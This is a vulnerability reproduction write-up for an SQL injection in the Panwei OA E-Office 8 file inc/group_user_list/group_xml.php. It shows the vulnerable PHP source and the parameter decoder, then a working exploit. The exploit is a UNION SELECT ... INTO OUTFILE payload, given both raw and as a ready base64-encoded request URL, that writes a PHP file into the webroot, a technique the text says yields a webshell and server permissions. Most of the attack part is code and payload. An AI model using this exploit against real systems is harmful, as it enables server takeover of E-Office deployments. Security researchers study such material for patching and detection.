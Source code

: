 # Panwei OA E-Office group_xml.php SQL injection vulnerability

## Vulnerability Description

The Panwei OA E-Office group_xml.php file has a SQL injection vulnerability. The attacker can write a Webshell file to obtain server permissions through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Panwei OA E-Office 8 </span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1629190834596-c2c639a7-1fb7-4934-95ad-1d571629e383.png)

The file with vulnerability is `inc/group_user_list/group_xml.php`

```javascript
session_start( );
include_once( "inc/conn.php" );
include_once( "inc/xtree_xml.inc.php" );
include_once( "inc/utility_all.php" );
header( "Expires: Mon, 26 Jul 1997 05:00:00 GMT" );
header( "Cache-Control: no-cache, must-revalidate" );
header( "Pragma: no-cache" );
header( "Content-Type: text/xml" );
$pararr = explodestpar( $_REQUEST['par'] );
$groupid = $pararr['groupid'];
if ( $groupid == "" )
{
				exit( );
}
$groupurl_fix = "?";
$userurl_fix = "?";
if ( 0 < strpos( $pararr['group_url'], "?" ) )
{
				$groupurl_fix = "&";
}
if ( 0 < strpos( $pararr['user_url'], "?" ) )
{
				$userurl_fix = "&";
}
$xtreeXml = new xtreeXml( );
$xtreeXml->initXml( );
if ( $pararr['group'] == 1 )
{
				$sql = "SELECT * FROM pub_group WHERE GROUP_ID=".$groupid."";
}
else
{
				$sql = "SELECT * FROM USER,USER_GROUP WHERE USER_GROUP.GROUP_ID=".$groupid."";
}
$rs = exequery( $connection, $sql );
$row = mysql_fetch_array( $rs );
$groupmember = $row['GROUP_MEMBER'];
```

$groupid is not wrapped in double quotes, and then causes injection. 

```javascript
function explodeStPar( $enpar )
{
				$depar = base64_decode( $enpar );
				$arrpar = explode( "|", $depar );
				if ( !is_array( $arrpar ) )
				{
								return false;
				}
				$i = 0;
				for ( ;	$i < sizeof( $arrpar );	++$i	)
				{
								$strpar = $arrpar[$i];
								$tmparr = explode( ":", $strpar );
								$j = 0;
								for ( ;	$j < sizeof( $tmparr );	++$j	)
								{
												if ( $j == 0 )
												{
																preg_match( "/\\[([a-z0-9-_].+)\\]/i", $tmparr[$j], $exp );
																$par = $exp[1];
												}
												else
												{
																preg_match( "/\\[(.*)\\]/i", $tmparr[$j], $exp );
																$val = $exp[1];
												}
								}
								if ( trim( $par ) != "" )
								{
												$rearr[$par] = $val;
								}
				}
				return $rearr;
}
```

Construct EXP write file

```javascript
[group]:[1]|[groupid]:[1 union select '<?php phpinfo()?>',2,3,4,5,6,7,8 into outfile '../webroot/vulntest.php']
|
| base64
|
/inc/group_user_list/group_xml.php?par=W2dyb3VwXTpbMV18W2dyb3VwaWRdOlsxIHVuaW9uIHNlbGVjdCAnPD9waHAgcGhwaW5mbygpPz4nLDIsMyw0LDUsNiw3LDggaW50byBvdXRmaWxlICcuLi93ZWJyb290L3Z1bG50ZXN0LnBocCdd
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1646124852775-28ff0359-2eee-4921-b752-4db7ebb49328.png)